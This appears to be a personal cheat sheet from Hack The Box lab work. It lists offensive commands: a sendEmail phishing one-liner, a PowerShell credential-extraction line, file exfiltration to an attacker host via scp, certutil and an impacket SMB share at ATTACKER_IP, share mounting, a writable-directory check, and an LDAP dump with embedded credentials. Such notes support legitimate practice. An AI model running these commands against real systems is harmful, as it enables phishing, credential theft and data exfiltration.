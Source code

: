 # sending a phish email with sendmail 
sendEmail -f finance@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a /root/.msf4/local/invoice.doc -s 10.129.4.113 -v

# get a plaintext password from a xml file by loading it with Import-CliXml, and then dumping the results
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *" 
 

# download file from windows target machine to attacker machine via scp (ssh acccess needed)
scp tom@10.129.4.113:C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors\FiletoDownload .

# download directory from linux target machine to attacker machine via scp (ssh acccess needed)
scp -P 22 alex@10.10.150.82:/usr/local/apache2/htdocs/* .

# download file from target machine to attacker using powershell
certutil.exe -urlcache -split -f http://10.10.14.67:8000/acls.csv acls.csv

# download file from target machine to attacker using impacket smbserver  (NOTE: you can create a random username and password with smbserver)
on attacker -> impacket-smbserver -smb2support share . -username USER -password PASS
on target - > net use \\ATTACKER_IP\share /u:USER PASS
on target -> copy 20201015050858_BloodHound.zip \\ATTACKER_IP\share\

# mount a targets anonymous share to attackers machine  
mount -t cifs -o rw,username=guest,password= '//10.129.1.169/Department Shares' /mnt

# bash script to determine what target shares are writeable
find . -type d | while read directory; do 
    touch ${directory}/0xdf 2>/dev/null && echo "${directory} - write file" && rm ${directory}/0xdf; 
    mkdir ${directory}/0xdf 2>/dev/null && echo "${directory} - write dir" && rmdir ${directory}/0xdf; 
done

# dump domain info via ldap 
ldapdomaindump -u 'htb.local\amanda' -p Ashare1972 10.129.1.169 -o /home/kali/Shared/Courses/hackTheBox/sizzle/ldap/
